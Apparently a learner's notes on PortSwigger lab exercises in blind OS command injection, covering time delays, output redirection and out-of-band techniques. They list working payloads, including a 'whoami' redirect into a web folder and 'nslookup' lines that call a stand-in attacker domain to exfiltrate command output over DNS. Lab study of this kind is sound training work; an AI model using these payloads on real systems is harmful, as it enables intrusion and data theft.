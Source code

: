 
# simple case
adding ; in store id
![[Pasted image 20230302190317.png]]

# Blind OS command injection with time delays

testing each paramater using payload ` ; sleep 10 #` or `& sleep 10 &`

# Blind OS command injection with output redirection
## Description 

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

`/var/www/images/`
The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.

## Answer

getting feedback request into repeater using this payload `; whoami > /var/www/images/whoami.txt #`

![[Pasted image 20230302193438.png]]
clicking on any picture and choose open in new tab
![[Pasted image 20230302193821.png]]
changing filename pramater to the file we created
![[Pasted image 20230302193841.png]]

# Blind OS command injection with out-of-band interaction
`; nslookup kgji2ohoyw.web-attacker.com #`

<iframe width="860" height="480" src="https://www.youtube.com/embed/ocqIy3zsZgo" title="Blind OS command injection with out of band interaction (Video solution, Audio)" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

# Blind OS command injection with out-of-band data exfiltration

`; nslookup whoami.kgji2ohoyw.web-attacker.com #`







---
Tags: #OS-injection #OWASP 
Resources: 
[PortSwigger OS Injection](https://portswigger.net/web-security/os-command-injection)
